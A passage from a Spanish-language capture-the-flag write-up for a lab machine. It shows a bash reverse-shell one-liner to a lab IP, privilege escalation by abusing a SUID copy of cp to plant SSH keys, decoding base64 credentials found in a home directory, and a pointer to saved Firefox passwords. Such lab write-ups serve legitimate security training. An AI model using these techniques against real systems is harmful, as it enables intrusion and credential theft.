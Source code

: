 Por lo que si nos ponemos en escucha en nuestra máquina con `nc` por el puerto 443:
![[Pasted image 20240829175708.png]]

Y ejecutamos en la *web shell* el comando:
```bash
bash -c 'bash -i >& /dev/tcp/10.10.0.128/4343 0>&1'
```

> [!NOTE] La 10.10.0.128 es la misma que la 192.168.159.147

Obtenemos la SHELL:
![[Pasted image 20240829180004.png]]

Por lo que hacemos el tratamiento de la TTY:
![[Pasted image 20240829180116.png]]![[Pasted image 20240829180228.png]]

## Escalada de privilegios
Si accedemos a `/var/www/html` podemos ver la primera *flag*:
![[Pasted image 20240829180352.png]]![[Pasted image 20240829180445.png]]

Si accedemos al directorio `/home/hermoine/bin` vemos un archivo SUID:
![[Pasted image 20240829180646.png]]

Este archivo es una copia del comando `cp`, pero con permisos SUID por lo que podemos utilizarlo para copiar una "authorized_keys" en el directorio ".ssh" del usuario "hermoine" para posteriormente conectarnos sin contraseña por SSH. Por lo que una vez creado el archivo "authorized_keys" en `/tmp`, lo copiamos:
![[Pasted image 20240829182208.png]]

Podemos conectarnos mediante SSH y `proxychains` para alcanzar la IP sin proporcionar contraseña:
![[Pasted image 20240829182356.png]]

Y ya podemos visualizar la segunda *flag*:
![[Pasted image 20240829182458.png]]
![[Pasted image 20240829182520.png]]

Si accedemos al directorio `/home/snape` vemos un archivo oculto llamado "creds.txt":
![[Pasted image 20240829182728.png]]

Que si accedemos a su contenido vemos unas credenciales en base64 por lo que podemos decodificarla:
![[Pasted image 20240829182810.png]]

Si probamos las credenciales para migrar al usuario "snape", son correctas:
![[Pasted image 20240829182921.png]]

Si nos fijamos en el directorio `/home/hermoine` hay un directorio ".mozilla" el cual puede contener contraseñas guardadas encriptadas:
![[Pasted image 20240829192304.png]]
